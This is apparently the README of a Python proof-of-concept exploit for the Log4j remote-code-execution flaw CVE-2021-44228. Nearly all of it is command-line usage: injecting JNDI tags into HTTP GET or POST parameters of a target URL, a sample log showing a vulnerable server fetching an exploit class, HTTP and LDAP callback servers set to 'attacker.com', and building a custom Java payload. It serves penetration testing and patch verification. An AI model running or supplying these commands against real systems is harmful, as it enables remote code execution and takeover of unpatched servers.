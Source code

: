 # Python Log4RCE

An all-in-one pure Python3 PoC for [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228).

## Sample

```bash
> python3 log4rce.py --target "linux" --payload "PAYLOAD" http -X POST --url "http://localhost:8080/" --data "address=###"
```

```
INFO:root:HTTP -> Running on local port 1337
INFO:root:Target Class -> http://127.0.0.1:1337/LinuxExploit.class
INFO:root:LDAP -> Running on local port 1387
INFO:root:HTTP -> Sending payload to http://localhost:8080/
127.0.0.1 - - [12/Dec/2021 20:59:55] "GET /LinuxExploit.class HTTP/1.1" 200 -
INFO:root:Done!
```

## Usage

This is a CLI tool. All options can be found in the help menu:

```bash
python3 log4rce.py --help
```

The list is pretty extensive, therefore the following will give you a summary of the functionality.

### Attack Modes

The tool allows you to use a few attack modes. These attacks are extensions of the `Log4RCE` class.

#### HTTP

You can perform an automated HTTP request attack on a target URL.

You can perform a GET request as follows:

```bash
python3 log4rce.py http --url "http://www.vuln.com:1234/?vuln_param=###&param=123" --headers="P1=123&P2=123"
```

You can perform a POST request as follows:

```bash
python3 log4rce.py http -X POST --url "http://www.vuln.com:1234/" --data "vuln_param=###&param=123" --headers="P1=123&P2=123"
```

The previous will inject the JNDI tag into `###`.

#### Manual

If you cannot use any of the previous, use this mode to dump the JDNI tag:

```bash
python3 log4rce.py manual
```

### Network Settings

The tool allows extensive customization for most network configuration. All the internal servers can be modified to point to different locations according the the remote settings.

#### HTTP Server

You can configure the HTTP server using the following parameters:

```bash
python3 log4rce.py --http_port 1234 --http_rport 12345 --http_host "attacker.com"
```

```
http_port: The local port to run the server on.
http_rport: The port that a remote machine accesses.
http_host: The host name/IP a remote machine accesses. 
```

#### LDAP Server

You can configure the LDAP server using the following parameters:

```bash
python3 log4rce.py --ldap_port 1234 --ldap_rport 12345 --ldap_host "attacker.com"
```

```
ldap_port: The local port to run the server on.
ldap_rport: The port that a remote machine accesses.
ldap_host: The host name/IP a remote machine accesses. 
```

### Customization

The tool allows can handle some customization. The following lists some functionality you may be interested in.

### Injecting Payload

You can inject a payload into the Java class using:

```bash
python3 log4rce.py --payload "PAYLOAD"
```

The payload will be injected into `"###"` strings.

### Custom Java Payload

You can build your own Java class using the following. 

```bash
javac /path/to/Exploit.java
```

The resulting `.class` can be run using:

```bash
python3 log4rce.py --java_class "/path/to/Exploit.class" ...
```

Note: You can add a string `"###"` to allow payload injection.
